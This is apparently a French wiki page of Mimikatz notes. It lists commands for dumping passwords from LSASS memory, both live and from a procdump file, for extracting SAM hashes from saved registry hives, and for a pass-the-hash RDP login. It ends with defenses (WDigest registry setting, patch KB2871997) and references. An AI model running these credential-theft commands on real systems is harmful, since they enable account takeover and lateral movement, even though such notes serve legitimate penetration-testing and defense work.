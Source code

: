 ```yaml
---
title: Mimikatz
permalink: /Mimikatz/
---
```


# Mimikatz

## Commandes utiles

Repris de https://github.com/gentilkiwi/mimikatz/wiki

### Récupération mots de passe

#### online

``` text
privilege::debug
sekurlsa::logonpasswords
```

#### offline

Récupération d'un dump avec prodcump

``` powershell
.\procdump64.exe -accepteula -ma lsass.exe c:\windows\tmp\lsass.dmp 
```

A partir d'un dump lsass.dmp

``` text
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### Récupération de hashs

#### online

``` text
privilege::debug
token::elevate
lsadump::sam
```

#### offline

Récupérer SAM et system:
```text
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
```
Dumper les hashs avec mimikatz:
```text
lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
```

### Pass the hash et RDP
``` text
privilege::debug
sekurlsa::pth /user:heidegger /domain:SHINRA-INC /ntlm:XXXXXXXXXXXXXXXX /run:"mstsc.exe /restrictedadmin"
```

## Secrets d'authentification en mémoire

Les "logins" suivants provoquent le stockage d'information d'authenficaction en mémoire [Administrative Tools and Logon Types](https://technet.microsoft.com/en-us/windows-server-docs/security/securing-privileged-access/securing-privileged-access-reference-material#a-nameatltbmaadministrative-tools-and-logon-types)

Trucs & astuces:
- Sous les vieilles versions de Windows il est possible d'utiliser mimilove.
- Il est possible de dumper lsass et de l'analyser offline avec mimikatz.

## Compatibilité minidump

Voir [sekurlsa :: minidump](http://blog.gentilkiwi.com/securite/mimikatz/minidump).

## Défenses

Il existe plusieurs mécanismes pour se défendre contre les attaques utilisant Mimikatz (Plus d'informations sur ADSecurity: <https://adsecurity.org/?p=559>)

### Désactiver wdigest

A partir de Windows 8.1 et Windows Server 2012 les mots de passes ne sont plus stockés en mémoire par défaut. De plus il est possible de faire en sorte que les mots de passe n'apparaissent pas en mémoire dans les anciennes versions de Windows. Il faut pour cela:

-   Appliquer le patch KB2871997
-   Modifier la clé de registre suivante pour qu'elle ait 0:

``` text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)
```


Références
----------

-   [Unofficial Guide to Mimikatz & Command Reference - ADSecurity](https://adsecurity.org/?page_id=1821)
-   [Mimikatz Overview, Defenses and Detection](https://www.sans.org/reading-room/whitepapers/detection/mimikatz-overview-defenses-detection-36780)
-   [Utilisation avancée de Mimikatz](http://connect.ed-diamond.com/MISC/MISC-066/Utilisation-avancee-de-Mimikatz)
-   [Administrative Tools and Logon Types](https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material#administrative-tools-and-logon-types): Information sur la réutilisation des mots de passe

